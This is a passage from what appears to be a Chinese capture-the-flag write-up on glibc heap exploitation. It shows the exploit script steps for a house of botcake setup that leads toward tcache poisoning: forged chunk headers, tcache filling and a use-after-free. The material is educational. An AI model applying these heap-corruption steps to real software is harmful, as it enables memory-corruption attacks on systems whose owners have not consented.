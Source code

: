这题如果单纯的打 house of botcake，那么后续只能打 io leak 泄露一个堆地址。如果想第二次打 tcache poisoning 的话，就必须要进行一点布局

```plain
add(0x100,'a')
    add(0x100,'b')

    add(0x80,'c')
    payload=p64(0xdeadbeef)*14+p64(0x180)+p64(0x90)
    add(0x100,payload)#size and prev_size of unsigned bin to be forged
```

[![](assets/1700186924-24090e015e71f829e9f664e2d892d333.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162844-27dee414-845a-1.png)

[![](assets/1700186924-10a0a64ccb72471500ad342ae9d9551e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162850-2b91ef52-845a-1.png)

```plain
for i in range(6):
        add(0x100,'a')

    for i in range(3,10):
        delete(i) 

    uaf(1)

    delete(0)
```

将 chunk3-10 delete 来把 tcachebin 填满

free 掉 chunk1，再将 chunk0 delete 来与 chunk1 合并
